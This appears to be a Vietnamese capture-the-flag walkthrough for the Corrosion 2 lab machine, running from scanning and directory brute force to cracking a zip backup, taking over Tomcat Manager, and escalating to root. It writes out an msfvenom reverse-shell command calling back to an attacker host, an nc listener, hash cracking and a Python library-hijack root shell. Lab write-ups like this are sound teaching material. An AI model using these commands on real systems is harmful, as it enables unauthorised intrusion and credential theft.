


# Corrosion 2
***

### Network Scanning

Đầu tiên tìm địa chỉ ip mục tiêu

```sudo netdiscover -i eth0 -r 192.168.169.0/24```


**Target IP: 192.168.169.140**

Tiếp theo scan các dịch vụ và cổng đang mở

```sudo nmap -sV -O 192.168.169.140```


+ Port 22: SSH
+ Port 80: HTTP(Apache Server)
+ Port 8080: HTTP(Tomcat Server)

### Enumeration

Thử truy cập vào Apache server port 80 chỉ hiện thị defaul Apache page. 



Tiếp theo chuyển tới Tomcat server port 8080 


Tiếp theo thực hiện directory brute force

```ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.169.140/FUZZ -e .php,.zip,.txt ```


Brute force các thư mục con nhưng không tìm được gì , tiếp theo chuyển sang port 8080

```ffuf -w /usr/share/wordlists/dirb/common.txt -u http://192.168.169.140:8080/FUZZ -e .php,.zip,.txt ```


Tìm thấy file backup.zip có thể truy cập.Tải file về 
```wget http://192.168.169.140:8080/backup.zip ``` 

Thử unzip nhưng được bảo vệ bởi mật khẩu


Sử dụng john the ripper crack mật khẩu

```sh
zip2john backup.zip > zip_hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash.txt
```


```unzip backup.zip -d ./backup```


Kiểm tra file tomcat-users.xml

```cat tomcat-users.xml```


**Finding: admin:melehifokivai**


### Exploitation

Sử dụng tài khoản trên để login vào Tomcat Manager thấy cho upload file và deploy


+ option 1: upload reverse shell thủ công
Tạo một .war file bằng msfvenom

```msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.169.137 LPORT=5555 -f war > rvshell.war```



Sau khi file được tạo thì tải lên thông qua GUI của Tomcat Manager 


```nc -lvnp 5555```


update shell and discover


Tìm được 2 file user.txt và note.txt

Thử đăng nhập tài khoản jaye và randy bằng mật khẩu của admin


Sau khi đăng nhập chỉ có thể đăng nhập jaye tìm thấy một file look như trên


Lệnh từ GTFOBins(một kho lưu trữ trực tuyến chứa danh sách các nhị phân Unix (binaries) mà có thể bị khai thác bởi kẻ tấn công để thực hiện các hành động không được phép trên hệ thống), sử dụng look command để xem password hash của user randy.


Lưu hash vào file hash.txt và sử dụng john để crack password

```john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt```


+ **Cracked Password:** ```07051986randy```

Sau khi đăng nhập tài khoản randy, sử dụng sudo -l kiểm tra những lệnh có thể chạy với quyền sudo


Xem file ```randombase64.py``` thấy import module base64. Khả năng xảy ra python library hijacking.


Chỉnh sửa file và chèn lệnh ```os.system('/bin/bash')``` để spawn một root shell


Đạt được quyền root

+ option 2: khai thác bằng metasploit

Search exploits


Tiếp theo làm giống option 1 để đạt được quyền root